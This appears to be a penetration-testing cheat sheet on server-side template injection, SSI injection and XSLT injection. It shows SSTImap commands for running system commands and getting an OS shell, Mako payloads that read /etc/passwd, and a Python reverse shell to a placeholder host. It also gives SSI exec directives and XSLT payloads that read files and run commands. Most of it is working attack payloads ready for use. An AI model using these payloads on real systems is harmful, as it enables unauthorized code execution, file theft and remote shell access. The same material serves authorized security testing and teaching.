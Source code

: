 # SSTI

## Resources
- [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [Hacktricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [SSTImap](https://github.com/vladko312/SSTImap)

## Detection
Insert this and check if there's an error
```
${{<%[%'"}}%\.
```

## SSTImap
### Setup
```bash
git clone https://github.com/vladko312/SSTImap.git; cd SSTImap; pip3 install -r requirements.txt
```
### Usage
#### Detect
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx
```
#### Run system commands
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako -S id
```
#### OS Shell
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako --os-shell
```

## Engine specific
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## SSI Injection

### Common file extensions

```
.shtml
.shtm
.stm    
```

### Useful directives

```html
<!--#exec cmd="whoami" -->
<!--#include virtual="some-source.js" -->
```

## XSLT Injection

### Detection
The `<` char since we are injecting XSL elements directly in XML.

### Useful elements
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
<xsl:value-of select="php:function('system','id')" />
```

